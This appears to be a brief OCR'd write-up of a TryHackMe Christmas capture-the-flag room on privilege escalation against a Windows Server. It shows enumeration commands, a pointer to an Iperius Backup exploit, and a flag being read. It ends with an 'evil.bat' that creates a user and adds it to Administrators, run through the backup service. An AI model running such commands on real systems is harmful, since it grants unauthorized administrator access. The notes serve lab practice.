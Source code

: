 Day 13

systeminfo | findstr /B /C: "OS Name"

Host Name:                 THE-GRINCH-HACK
OS Name:                   Microsoft Windows Server 2019 Datacenter
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
BIOS Version:              Xen 4.2.amazon, 8/24/2006
                                 Connection Name: Ethernet


wmic service list | findstr "Running" >1.txt


Google "Iperius Backup exploit"

https://www.exploit-db.com/exploits/46863

c:\Users\thegrinch\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of c:\Users\thegrinch\Documents

11/10/2021  06:23 AM    <DIR>          .
11/10/2021  06:23 AM    <DIR>          ..
11/10/2021  06:21 AM                13 flag.txt
11/10/2021  06:23 AM               222 Schedule.txt
               2 File(s)            235 bytes
               2 Dir(s)  15,616,204,800 bytes free

c:\Users\thegrinch\Documents>type flag.txt
type flag.txt
THM-736635221
c:\Users\thegrinch\Documents>type Schedule.txt
type Schedule.txt
Daily Schedule:
4:00 - wallow in self-pity 
4:30 - stare into the abyss 
5:00 - solve world hunger, tell no one
5:30 - jazzercize
6:30 - dinner with me. I can�t cancel that again 
7:00 - wrestle with my self-loathing

Privilege administrators

change file evil.bat
@echo off
net user test MyPassword123 /add && net localgroup Administrators test /add

run backup

